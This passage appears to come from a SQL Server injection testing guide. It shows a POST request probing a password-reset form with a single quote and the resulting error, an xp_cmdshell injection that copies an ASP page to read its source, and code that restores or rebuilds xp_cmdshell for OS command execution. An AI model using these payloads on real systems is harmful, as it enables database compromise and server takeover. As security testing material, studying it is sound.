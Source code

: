 ### Example 3: Testing in a POST request

SQL Injection, HTTP POST Content: email=%27&whichSubmit=submit&submit.x=0&submit.y=0

A complete post example:

`POST https://vulnerable.web.app/forgotpass.asp HTTP/1.1`\
`Host: vulnerable.web.app`\
`User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.0.7) Gecko/20060909 Firefox/1.5.0.7 Paros/3.2.13`\
`Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5`\
`Accept-Language: en-us,en;q=0.5`\
`Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7`\
`Keep-Alive: 300`\
`Proxy-Connection: keep-alive`\
`Referer: http://vulnerable.web.app/forgotpass.asp`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 50`\
` email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

The error message obtained when a ' (single quote) character is entered at the email field is:

`Microsoft OLE DB Provider for SQL Server error '80040e14'`\
`Unclosed quotation mark before the character string '' '.`\
`/forgotpass.asp, line 15 `

### Example 4: Yet another (useful) GET example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: custom xp\_cmdshell

All books and papers describing the security best practices for SQL Server recommend disabling xp\_cmdshell in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.\
\
On SQL Server 2000:

-   If xp\_cmdshell has been disabled with sp\_dropextendedproc, we can simply inject the following code:



    sp_addextendedproc 'xp_cmdshell','xp_log70.dll'

-   If the previous code does not work, it means that the xp\_log70.dll has been moved or deleted. In this case we need to inject the following code:



    CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
      DECLARE @result int, @OLEResult int, @RunResult int
      DECLARE @ShellID int
      EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
      IF @OLEResult <> 0 SELECT @result = @OLEResult
      IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
      EXECUTE @OLEResult = sp_OADestroy @ShellID
      return @result
